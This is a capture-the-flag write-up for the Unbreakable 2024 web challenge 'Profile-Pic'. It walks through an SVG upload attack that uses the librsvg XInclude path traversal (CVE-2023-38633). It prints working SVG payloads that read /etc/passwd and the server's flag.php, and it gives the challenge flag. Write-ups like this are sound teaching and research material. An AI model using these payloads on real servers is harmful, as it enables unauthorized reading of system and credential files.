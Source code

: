 ```yaml
---
title: Profile-Pic
date: 2024-04-07T12:50:30+03:00
description: Writeup for Profile-Pic [Unbreakable 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

Can you change my profile picture in a hacker way?

Flag format: ctf{sha256sum}


## Intuition

The website is very simple with an upload feature. It means the attack vector is certainly a file upload vulnerability.
The server is PHP because I can add `index.php` at the end of the home page. We first thought about injecting php code, but
we finally looked at XXE upload chaining with the upload feature.

![img.png](/images/unbreakable_2024/profile.png)

Another hint about svg exploit was that the file was renamed and retyped to `png` after upload therefore it was obvious
that we had to exploit something else than php.

![img.png](static/images/unbreakable_2024/png.png)

## Solution

The first step is to bypass the length check of the image. We can do this by changing the content-type of the image to `text/xml` and then upload a simple XML file.
![img.png](/images/unbreakable_2024/size.png)

![img.png](/images/unbreakable_2024/error.png)

The correct size is actually 50x50px. We can bypass this as follows:

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
</svg>
```
The next step was to try to read source code or run commands using `expect://` or `file://` but it didn't work.
We noticed the error message above about the size and library `rsvg-convert` so we looked for recent exploits and 
found [this one](https://secalerts.co/vulnerability/CVE-2023-38633) therefore we tried to exploit it.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
    <rect width="50" height="50" style="fill:rgb(255,255,255);" />
    <text x="10" y="10">
        <xi:include href=".?../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
            <xi:fallback>file not found</xi:fallback>
        </xi:include>
    </text>
</svg>
```

![img.png](/images/unbreakable_2024/passwd.png)

We got it something ! Now it is time to read the flag file. And after enumerating some default paths for Apache server,
we found the flag in `/var/www/html/flag.php`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,255,255);" />
  <text x="-610" y="25">
    <xi:include href=".?../../../../../../../var/www/html/flag.php" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```
![img.png](/images/unbreakable_2024/flag.png)

The last step is to play with the following param `<text x="-610"` in order to read the flag.

### Flag

`CTF{af0a742b17dd73ca3d8ff27c885350a890c4ab104670fa3373de63c7709925b0}`

## Acknowledge

This writeup was co-authored by [sunbather](https://github.com/costinteo), [Koyossu](https://github.com/SecioreanuStefanita) and [H0N3YP0T](https://github.com/Mathis-Dory).

